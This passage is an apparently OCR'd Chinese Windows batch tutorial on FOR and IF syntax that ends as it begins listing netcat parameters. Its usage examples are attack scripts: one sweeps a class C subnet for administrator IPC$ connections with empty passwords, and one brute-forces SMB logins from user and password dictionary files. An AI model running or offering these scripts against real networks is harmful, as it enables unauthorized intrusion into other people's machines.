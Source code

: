 command：指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：& 来隔开

command_parameters：为特定命令指定参数或命令行开关

IN (set)：指在(set)中取值；DO command ：指执行command

参数：/L 指用增量形式{ (set)为增量形式时 }；/F 指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:pass.txt)时 }。

用法举例：

@echo off

echo 用法格式：test.bat *.*.* > test.txt

for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \%1.%%G /user:administrator | find "命令成功完成" >>test.txt

存为test.bat 说明：对指定的一个C类网段的254个IP依次试建立administrator密码为空的IPC$连接，如果成功就把该IP存在test.txt中。

/L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；& 用来隔开echo 和net use 这二个命令；| 指建立了ipc$后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。

@echo off

echo 用法格式：ok.bat ip

FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200

存为：ok.exe 说明：输入一个IP后，用字典文件d:pass.dic来暴解d:user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入的IP地址（默认）。



## if命令及变量 基本格式

IF [not] errorlevel 数字 命令语句 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为“真”。

例：IF errorlevel 0 命令 指程序执行后返回的值为0时，就值行后面的命令；IF not errorlevel 1 命令指程序执行最后返回的值不等于1，就执行后面的命令。

0 指发现并成功执行（真）；1 指没有发现、没执行（假）。

IF [not] 字符串1==字符串2 命令语句 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。

例：“if "%2%"=="4" goto start”指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就%变量名%并加" "）

IF [not] exist 文件名 命令语句 如果指定的文件名存在，就执行后面的命令。

例：“if not nc.exe goto end”指：如果没有发现nc.exe文件就跳到":end"标签处。

IF [not] errorlevel 数字 命令语句 else 命令语句或 IF [not] 字符串1==字符串2 命令语句 else 命令语句或 IF [not] exist 文件名 命令语句 else 命令语句 加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。 当有del命令时需把del命令全部内容用< >括起来，因为del命令要单独一行时才能执行，用上< >后就等于是单独一行了；例如：“if exist test.txt. <del test.txt.> else echo test.txt.missing ”，注意命令中的“.”

## 系统外部命令

注：系统外部命令(均需下载相关工具)

瑞士军刀：nc.exe

参数说明：

    -h 查看帮助信息
    